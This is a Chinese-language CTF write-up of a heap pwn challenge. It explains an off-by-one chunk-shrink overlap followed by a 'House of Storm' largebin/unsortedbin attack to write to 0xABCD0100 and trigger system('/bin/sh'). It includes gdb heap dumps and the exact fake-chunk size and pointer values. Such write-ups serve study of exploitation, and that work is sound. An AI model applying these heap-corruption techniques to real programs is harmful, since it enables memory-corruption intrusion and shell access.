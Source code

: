 ```arm
    puts("Done");
  }
```
`666`功能表示如果你可以任意地址写那就给你个shell...
```arm
if ( !memcmp(&buf, (const void *)0xABCD0100LL, 0x30uLL) )
    system("/bin/sh");
```

## 利用
* off_by_one:shrink to overlap
* storm to edit 0xabcd0100
思路很简单..很直接 
storm真的是很巧妙.
## DEBUG_LOG
[off_by_one][2]shrink在上文中已经介绍.主要调`storm`过程.
我把`libc`换成了我自己编译的`libc`有符号看得比较清楚
我们首先看看完成对`unsortedbin`,`largebin`布局之后的堆情况.
```arm
n132>>> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x56315237ba80 (size : 0x20580) 
       last_remainder: 0x56315237b0f0 (size : 0x4a0) 
            unsortbin: 0x56315237b0b0 (doubly linked list corruption 0x56315237b0b0 != 0x0 and 0x56315237b0b0 is broken)
         largebin[ 2]: 0x56315237b0f0 (doubly linked list corruption 0x56315237b0f0 != 0x0 and 0x56315237b0f0 is broken)
n132>>> x/8gx 0x56315237b0b0
0x56315237b0b0:	0x0000000000000000	0x00000000000004b1
0x56315237b0c0:	0x0000000000000000	0x00000000abcd00e0
0x56315237b0d0:	0x000000000000000a	0x0000000000000020
0x56315237b0e0:	0x0000000000000021	0x0000000000000021
n132>>> 
0x56315237b0f0:	0x000000000000000a	0x00000000000004a1
0x56315237b100:	0x0000000000000000	0x00000000abcd00e8
0x56315237b110:	0x0000000000000000	0x00000000abcd00c3
0x56315237b120:	0x000000000000000a	0x0000000000000000
```
在链入过程中不会检查`unsortedbin`或者`largebin`的下一个`chunk`的`pre_size`
所以只需要设置好
* unsortedbin:size,bk
* largebin:size,bk,bk_nextsize
```python
aim_address=0xabcd0100
unsortedchunk_size=0x4b1
largechunk_size=0x4a1
unsortedchunk_bk=aim_address-0x20
bk=aim_address-0x20+8
bk_nextsize=aim_address-0x20-0x18-5
```
这样做的目的是为了把`0xabcd0100`链入largebin.几个值的设置完成了对`fakechunk` 的`size,fd,bk`的改写,非常优雅非常美非常精妙.想出来的师傅非常强
//想明白了之后对这波操作简直叹为观止.
